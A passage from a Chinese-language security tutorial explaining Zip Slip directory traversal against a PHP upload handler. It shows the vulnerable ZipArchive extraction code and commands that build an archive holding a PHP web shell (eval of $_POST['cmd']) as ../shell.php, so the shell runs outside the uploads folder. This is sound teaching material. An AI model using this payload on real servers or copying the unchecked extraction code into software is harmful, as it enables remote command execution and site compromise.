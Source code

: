 

#### 目录遍历

Zip Slip是一种高危的目录遍历漏洞，攻击者通过构造恶意压缩文件（如ZIP、Tar等），利用未经安全校验的解压逻辑将文件写入目标目录之外的系统路径，从而覆盖关键可执行文件或配置文件，最终实现远程命令执行或系统破坏。



PHP 服务器处理用户上传压缩包的逻辑代码如下，服务器会将压缩包的内容解压到 uploads 文件夹中，服务器不会过滤压缩包中的 xxx.php 文件，但是服务器不会解析和执行 uploads 文件夹（及其子文件夹）下的任何 xxx.php 文件。

```php
<?php
if ($_FILES['file']['error'] > 0) {
    echo 'Error: ' . $_FILES['file']['error'] . '<br>';
} else {
    $uploadPath = 'uploads/';
    $zip = new ZipArchive;

    if ($zip->open($_FILES['file']['tmp_name']) === TRUE) {
        $zip->extractTo($uploadPath);
        $zip->close();
        echo 'Files uploaded and extracted to the upload folder.';
    } else {
        echo 'Failed to upload and extract the files.';
    }
}
                
?>
```



服务端使用 ZipArchive 对压缩包进行解压，指纹识别到服务端的 PHP 版本为 5.6，该版本的 ZipArchive 不会自动过滤压缩包文件中的 `../` ，存在目录遍历攻击。

创建一个 `../shell.php` 文件的压缩包，上传到服务器后 ZipArchive 会将其解压到 uploads 文件夹中的父目录中，该目录中的 xxx.php 文件会被正常解析和执行。

```
printf "<?php eval(\$_POST['cmd']); ?>" > shell.php
cd sub/

zip exp.zip ../shell.php
  adding: ../shell.php (stored 0%)
```



将 exp.zip 文件上传到网页中。

![image-20250314100953657](./images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20250314100953657.png)
